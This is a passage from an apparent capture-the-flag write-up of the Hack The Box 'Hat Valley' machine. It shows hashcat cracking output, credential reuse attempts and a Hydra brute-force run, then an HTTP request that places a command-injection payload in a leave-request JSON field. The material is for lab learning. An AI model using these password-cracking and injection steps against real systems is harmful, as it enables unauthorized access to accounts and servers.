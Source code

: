 ```bash
Guess.Base.......: File (/usr/share/seclists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  4072.8 kH/s (0.35ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/4 (25.00%) Digests (total), 1/4 (25.00%) Digests (new)
Progress.........: 14344384/14344384 (100.00%)
Rejected.........: 0/14344384 (0.00%)
Restore.Point....: 14344384/14344384 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: $HEX[21217365786d652121] -> $HEX[042a0337c2a156616d6f732103]
Hardware.Mon.#1..: Util: 50%

Started: Fri Jan 13 17:55:25 2023
Stopped: Fri Jan 13 17:55:45 2023
```

I had the password for 'christopher.jones'. I tried the credentials in SSH, but they failed. I tried them on the sites. It worked on the main site but failed in the store.

I had some potential usernames. So I launched Hydra to try to brute force the store login. It went through all rockyou without any success.

## Remote Code Execution

Once connected to the site, I tried the different API calls again. The status call worked the same way. I kept in mind that I still needed to use it to scan ports. But I kept exploring the other calls first.

The call to get the leave requests were now returning two rows.

```
bean.hill,Taking a holiday in Japan,23/07/2022,29/07/2022,Yes
bean.hill,Inevitable break from Chris after Japan,14/08/2022,29/08/2022,No
```

The call to submit new leave requests was sending the three fields in JSON. I tried using it to execute code on the server.

```bash
POST /api/submit-leave HTTP/1.1
Host: hat-valley.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 67
Origin: http://hat-valley.htb
Connection: close
Referer: http://hat-valley.htb/leave
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNocmlzdG9waGVyLmpvbmVzIiwiaWF0IjoxNjczNjUwNzgzfQ.BmsL4d_9cvKe3dJKhW5XVio841FaYrvkfuO3iYlZKbs

{"reason":"`id` $(id); id","start":"13/01/2023","end":"13/01/2023"}
```
